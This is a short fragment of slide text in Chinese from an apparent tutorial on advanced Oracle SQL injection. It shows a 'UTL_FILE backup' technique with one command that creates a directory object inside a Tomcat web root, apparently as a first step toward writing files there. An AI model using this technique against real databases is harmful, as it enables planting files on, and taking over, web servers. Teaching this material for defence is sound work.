

# SQL注入
Oracle高级注入：
1、友情备份
使用UTL_FILE友情备份：

创建目录：
create or replace directory cux_log_dir as 'E:/soft/apache-
tomcat-7.0.37/webapps/ROOT/selina';